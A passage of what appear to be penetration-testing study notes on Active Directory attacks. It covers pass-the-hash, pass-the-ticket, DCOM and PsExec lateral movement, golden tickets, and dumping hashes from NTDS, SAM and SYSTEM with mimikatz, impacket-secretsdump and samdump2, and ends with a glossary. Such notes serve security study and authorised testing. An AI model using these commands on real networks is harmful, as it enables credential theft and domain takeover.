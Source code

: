 		1. Pass the Hash, run powershell
			1. `sekurlsa::pth`
		2. Generate a TGT by authenticating to a network share
			1. `net use \\files04`
		3. Inject the selected TGS into process memory
			1. `kerberos::ptt`
	2. `.\Rubeus.exe`
7. **Pass the Ticket**
	1. Export Kerberos tickets stored in memory 
		1. `sekurlsa::tickets /export`
	2. Inject selected TGS into process memory
		1. `kerberos::ptt`
	3. Start an interactive session after getting TGS
		1. `.\PsExec.exe \\weebs69 cmd`
8. **DCOM**
	1. `$dcom.Document.ActiveView.ExecuteShellCommand`

## Active Directory Persistence
1. **Golden Ticket**
	1. Extract krbtgt hash
		1. `lsadump::lsa /patch`
	2. Get domain SID
		1. `whoami /user`
	3. Create golden ticket
		1. `kerberos::golden`
2. **Shadow Copies**
	1. Copy NTDS database
	2. Save system hive
		1. `reg.exe`
	3. Extract NTLM hashes and Kerberos keys for every AD user
		1. `impacket-secretsdump`
3. **SAM file**
	1. Copy out SAM
	2. Copy out SYSTEM
	3. Dump Windows 2k/NT/XP password hashes from a SAM file
		1. `samdump2 SYSTEM SAM`

## Glossary of Terms
- TGT
	- Ticket-Granting Ticket
- TGS (Service tickets)
	- Ticket-Granting Service
- AS-REP Roast
	- Get user password hashes that "Do not require Kerberos preauthentication"
- Kerberoast
	- Get service account password hashes
- Pass the Hash
	- Authenticate with password hash without plaintext password
- Over Pass the Hash
	- Get TGT and TGS with password hash
- Pass the Ticket
	- Using an injected user's ticket
- Silver Ticket
	- Forged TGS for a specific service or resource within the AD environment for any users and permissions
- Golden Ticket
	- Forged TGT for the domain's KDC (Key Distribution Center)
---
